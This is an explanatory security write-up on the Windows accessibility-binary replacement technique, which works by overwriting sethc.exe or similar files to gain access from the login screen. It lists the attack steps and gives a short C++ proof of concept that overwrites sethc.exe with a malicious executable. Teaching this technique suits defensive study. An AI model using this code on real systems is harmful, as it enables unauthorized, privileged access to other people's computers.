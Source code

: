 ### **Understanding Replace Binaries (Accessibility) Method**

Windows includes several accessibility features like Sticky Keys, Magnifier, On-Screen Keyboard, etc., which are designed to assist users with disabilities. These features can be invoked from the login screen, and the executables associated with them (like sethc.exe for Sticky Keys, osk.exe for On-Screen Keyboard, etc.) are located in system directories.

In the Replace Binaries method, an attacker replaces one of these executables with a malicious one. When the accessibility feature is invoked, the malicious executable is run instead, potentially giving the attacker access to the system.

### **Scenario of Replace Binaries Attacks**

- Gain Initial Access: The attacker first needs to gain initial access to the system with sufficient privileges to replace system files.
- Identify Target Binary: The attacker identifies which accessibility feature binary they will replace (e.g., sethc.exe).
- Replace the Binary: The attacker replaces the legitimate binary with their malicious executable. This might require bypassing system protections like Windows File Protection.
- Trigger the Malicious Binary: The malicious binary is executed when the corresponding accessibility feature is invoked, typically from the login screen.

### **Sample Proof of Concept (PoC) Code in C++**

Here’s a simplified example of how an attacker might programmatically replace an accessibility feature binary. This is for educational purposes only and should not be used for malicious activities.

```
#include <windows.h>

#include <iostream>

int main() {

    // Path to the legitimate binary (e.g., Sticky Keys)

    const char* legitBinaryPath = "C:\\Windows\\System32\\sethc.exe";

    // Path to the malicious binary

    const char* maliciousBinaryPath = "C:\\path\\to\\malicious.exe";

    // Replace the legitimate binary with the malicious one

    if (!CopyFile(maliciousBinaryPath, legitBinaryPath, FALSE)) {

        std::cerr << "Error replacing file: " << GetLastError() << std::endl;

        return 1;

    }

    std::cout << "Binary replaced successfully." << std::endl;

    return 0;

}
```
